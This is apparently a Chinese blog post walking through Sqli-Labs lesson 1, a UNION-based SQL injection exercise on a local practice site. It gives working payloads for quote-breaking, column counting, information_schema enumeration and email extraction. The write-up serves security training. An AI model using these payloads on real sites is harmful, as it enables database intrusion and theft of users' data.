 ```yaml
---
title: "Sql-Lib第一关"
date: 2019-08-20T15:56:26+08:00
description: "Union注入"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- "sql_lib"
- "SQL注入"
categories:
- "渗透测试"
series:
- "技术研究"
image: 
---
```


- 漏洞类型：GET型 - 基于报错 - 单引号 - 字符型注入
- 目标网址（本地靶场）：http://www.sqllib.com/less-1/?id=
- 目标：获取网站用户的邮箱

---

# ① 访问网址，测试是否存在SQL注入

## 正常访问

> http://www.sqllib.com/less-1/?id=1

**目前页面上在有两处显示信息**

- Your Login name：Dumb
- Your Password：Dumb

![正常访问](https://shop.io.mi-img.com/app/shop/img?id=shop_a26a65b1a5f6c9c9e58bea52a6ef23a9.jpeg)




## 异常测试

> ① http://www.sqllib.com/less-1/?id=1'
>
> ② http://www.sqllib.com/less-1/?id=1' and '1
>
> ... ...

![单引号测试](https://shop.io.mi-img.com/app/shop/img?id=shop_c3a9aef6acd3d846103f6df100f2d83f.jpeg)

![布尔测试](https://shop.io.mi-img.com/app/shop/img?id=shop_1e3aa4d02d04dc6958d5b75d0b2ad100.jpeg)

## 报错信息

**报错信息中，没有对我输入的单引号进行转义，传入的 id 参数有可能是字符型，后面注入时要尝试闭合单引号**

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1'



# ② 查询当前网页，使用的表名，包含的字段数量

## 输入 order by 1~99，直到页面显示异常

```
order by 3--+
```

![猜解字段数量](https://shop.io.mi-img.com/app/shop/img?id=shop_107592566ce5f543eaf8baf69c1a1c83.jpeg)

```
order by 4--+
```

![猜解字段数量_2](https://shop.io.mi-img.com/app/shop/img?id=shop_3cc11285380a40d3248f77d5f96906b2.jpeg)



# ③ 判断查询的信息，在页面显示的位置

```
union select 1,2,3
```

![判断信息回显位置](https://shop.io.mi-img.com/app/shop/img?id=shop_13dc1b06bf1362d4b74180b221c43ea3.jpeg)

#### **如图，最终确认，2，3是信息回显的位置，后面的语句中，"1" 最好替换为 "null"**<br>

#### **避免数据库出现异常。**


# ④ 查询数据库名、表名

```
union select null,database(),version()--+
```

![查询数据库、以及版本](https://shop.io.mi-img.com/app/shop/img?id=shop_30a9b12ff751baa6b8b5783c81524727.jpeg)



```
union select null,table_schema,table_name from information_schema.tables where table_schema='security' limit 0,1--+
```

![查询库中包含的表名](https://shop.io.mi-img.com/app/shop/img?id=shop_1ac99de1700468225c1e263a91fe3bc4.jpeg)

## **改变 limit m, n** 中的 m, 从表中一行行查询 0~99

![查询到users表](https://shop.io.mi-img.com/app/shop/img?id=shop_ef02ae9ffeb0aec4f05198a68b4b0d8d.jpeg)

# ⑤ 查询 "security" 库中的 "emails" 表所包含的字段名

```
union select null,table_name,column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1--+
```

![第一个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_0fdca406df650b8055ffa6881da1e01f.jpeg)

![第二个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_c262c1a882641a41430113d306dce9ed.jpeg)

# ⑥ 获取用户邮箱信息

```
union select null,id,email_id from security.emails limit 0,1--+
```

![查询用户邮箱](https://shop.io.mi-img.com/app/shop/img?id=shop_320a64aeb53beb4d897a85b35bf38ab5.jpeg)

![查询用户2](https://shop.io.mi-img.com/app/shop/img?id=shop_6ee464d11e87288a2f29dd7922fdd9fd.jpeg)

## 用户邮箱

- Dumb@dhakkan.com
- Angel@ilovenu.com

## 总结

首先，要判断出从 id 传入的参数，是字符串，还是数字(int)型

- 字符型要用 ' ，"，--+，#等注释，闭合单引号，或者注释对查询无用的 MySql 语句

  

```
id=' union select ... --+'
```

- 数字型可以用 "-" 符号，布尔表达式

  
```
id=-1 union select ...
id=1 and 1=2 union select ...
```

然后，通过常见的报错信息，可以大致判断注入的类型（看运气，实战大多盲注）

最后，手工输入需要耐心和细心，有时候注入的语句没有效果

很有可能是手误敲错字母，漏掉了单引号之类的... ...

有不足和错误之处，欢迎留言讨论~